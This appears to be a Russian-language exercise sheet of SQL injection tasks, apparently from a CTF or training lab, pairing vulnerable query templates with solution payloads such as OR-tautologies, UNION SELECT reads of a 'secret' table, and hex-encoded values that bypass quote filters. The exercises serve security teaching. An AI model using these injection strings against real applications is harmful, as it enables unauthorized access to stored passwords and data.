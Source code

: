 ## SQL Injections

- **1. Таблица:** users  
   **Поля:** id, login, pass  
   **Задача:** пароль пользователя с id=12:  
   ```SELECT * FROM users WHERE id=12 ```



- **2. Таблица:** users  
  **Поля:** id, login, pass  
  **Запрос:** SELECT * FROM users WHERE id=2 OR login='$text' (вместо $text подставляется введённое ниже значение)  
  **Задача:** пароль пользователя с id=9  
  ```$text = ' OR id=9-- '```


- **3. Таблица:** users  
  **Поля:** id, login, pass  
  **Запрос:** SELECT * FROM users WHERE id=2 OR login='$text' LIMIT 1  
  **Задача:** пароль пользователя с id=13  
  ```$text = ' OR id=13-- '```  


- **4. Таблицы:** users, secret  
  **Поля** таблицы users: id, login, pass  
  В таблице secret три поля  
  **Запрос:** SELECT * FROM users WHERE id=2 OR login='$text' LIMIT 1  
  **Задача:** данные из таблицы secret с полем ggg='abc'  
  ```$text = ' UNION SELECT * FROM secret WHERE ggg='abc'-- '```


- **5. Таблицы:** users, secret  
  **Поля** таблицы users: id, login, pass  
  В таблице secret два поля  
  **Запрос:** SELECT * FROM users WHERE id=2 OR login='$text' LIMIT 1  
  **Задача:** данные из таблицы secret  
  ```$text = ' UNION SELECT *,1 FROM secret-- '```  


- **6. Таблицы:** users  
  **Поля:** id, login, pass  
  **Запрос:** SELECT * FROM users WHERE id=$text LIMIT 1  
  **Подсказка:** база пользователей стала дли-и-и-инная  
  Теперь всегда выводится только первая строка ответа (вне зависимости от того, сколько вернул SQL-запрос)  
  Фильтруются кавычки (' и ")  
  **Задача:** пароль пользователя с логином god  
  ```$text = 10000 OR login = 0x676f64```
  
- **7. Таблицы:** users  
  **Поля:** id, login, pass  
  **Запрос:** SELECT * FROM users WHERE id=$text LIMIT 1  
  Теперь всегда выводится только первая строка ответа (вне зависимости от того, сколько вернул SQL-запрос)   
  Фильтруются символы ', ", +, =, запятая, пробел, скобки  
  **Задача:** пароль пользователя с логином, содержащим подстроку gentoo  

